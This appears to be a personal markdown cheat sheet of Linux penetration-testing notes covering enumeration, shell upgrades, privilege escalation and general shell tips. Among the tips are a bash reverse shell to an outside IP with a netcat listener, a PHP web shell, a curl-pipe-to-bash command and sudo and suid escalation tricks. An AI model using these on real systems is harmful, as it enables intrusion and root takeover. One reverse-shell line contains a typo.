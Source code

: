 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Linux Notes

## Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": [GTFObins](https://gtfobins.github.io/)

### Enumeration

find files user has access to:

```bash
find / -user <username> -ls 2>/dev/null
```

`which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null` - Check if each of these useful programs are installed on the machine \(only shows the ones currently installed\). 

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

download **and** execute script \(such as LinEnum.sh\) \[from remote host\]: `curl <url or IP>/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit <name_of_program> 

#to pull exploit code:
searchsploit -x <name/number of exploit>
```

enumerate running processes: `pspy (TODO: find github and link it)`

`ps -U root -u root ux` View all processes started by a certain user \(`root` in this case\)

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Semi-automated enumeration all-in-one \(use this!\): [nmapAutomator](https://github.com/21y4d/nmapAutomator)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

enumerate info about current processes running from: `/proc/self/status`

### Upgrade shells:

```text
1. python -c 'import pty; pty.spawn("/bin/sh")'
2. perl -e 'exec "/bin/sh";'
3. ruby -e 'exec "/bin/sh"'
```

To upgrade to fully interactive shell \(python example\):

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #[to background]
stty raw -echo; 
fg #[to return shell to foreground]
export TERM=xterm
```

php shell: `<?php system($_GET['variable_name']); ?>`

bash reverse shell:

```text
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

nc listener: `nc -lvnp <port>`

### TMUX

tmux can keep alive sessions if you lose ssh sessions etc, can split panes and more:

```text
tmux new -s <session_name> 
ctrl-b = prefix key (enables addnl commands) 
+[%] vertical pane  
+["] horizontal pane 
+[alt-space] switch pane between horizontal or vertical
+[arrow_keys] move between panes 
+[z] zoom in/out on pane 
+[?] help for tmux 
+[t] timer
```

tmux plugins:

* tmux logging plugin \(get this!!\) can save log of tmux windows
* [better mouse mode](https://github.com/NHDaly/tmux-better-mouse-mode)

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

list user's sudo permissions: `sudo -l`

execute any command while in `less`: `!<cmd>`

Privilege Escalation to Root by setting suid on `/bin/less`: `chmod 47555 /bin/less`

Privilege Escalation to Root with `find`: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

If your user can `sudo` any of these text editors:

```bash
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Remote Code Execution

[https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/](https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/) Run commands on remote system without a shell through SSH with a "Herefile"

```text
ssh server1 << HERE
 command1
 command2
HERE
```

### Misc Linux

Raw memory location so no files on disk: `/dev/shm/`

list all running commands:

```bash
ps -eo command`
#change delimiter to \n instead of <space> (loop by line): 
IFS=$'\n'
#Then loop through each line in output: 
for i in $(ps -eo command); do echo $i; done
```

[https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents](https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents) script to copy contents of file directly to clipboard; Save in PATH location then enjoy!

```text
#! /bin/bash
xclip -selection clipboard -i $@
```

'new' netstat: `ss -lnp | grep 9001` \#check if any connections on port 9001

copy files to local machine without file transfer:

```bash
base64 -w 0 /path/of/file/name.file 
#copy base64 then: 
echo -n <base64material> | base64 -d > filename.file
```

pretty print JSON text in console \([https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/](https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/)\). Pipe the JSON output to `jq`. Example from NASA ISS API: `curl -s http://api.open-notify.org/iss-now.json | jq`

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

convert rpm to debian packages: `alien <file.rpm>`

`sudo rm --force $(which <file_name>)` Remove all instances of a certain file. Could be used with `find` instead of `which`. dangerous with --force!!

cycle through previous arguments: `alt-.`

move between "words" on a command line `ctrl-[arrow_keys]`

### PATH

Add new $PATHs to `.profile` rather than `.bashrc`, then `source ~/.profile` to use new PATHs

Makes `pwd` part of path so dont need `./`  _NOT RECOMMENDED for home use!_  `export PATH='pwd':$PATH`

The bullet-proof way to add a path \(e.g., ~/opt/bin\) to the PATH environment variable is: \(from [https://unix.stackexchange.com/questions/26047/how-to-correctly-add-a-path-to-path](https://unix.stackexchange.com/questions/26047/how-to-correctly-add-a-path-to-path)\)

```text
PATH="${PATH:+${PATH}:}~/opt/bin"
for appending (instead of PATH="$PATH:~/opt/bin") and

PATH="~/opt/bin${PATH:+:${PATH}}"
for prepending (instead of PATH="~/opt/bin:$PATH")
```

### Check encoding of a text file

`vi -c 'let $enc = &fileencoding | execute "!echo Encoding: $enc" | q' <file_to_check>` check encoding of a text file \(needed especially when doing crypto with python, or cracking passwords with rockyou.txt\) [https://vim.fandom.com/wiki/Bash\_file\_encoding\_alias](https://vim.fandom.com/wiki/Bash_file_encoding_alias) \(make an alias for the above command\)

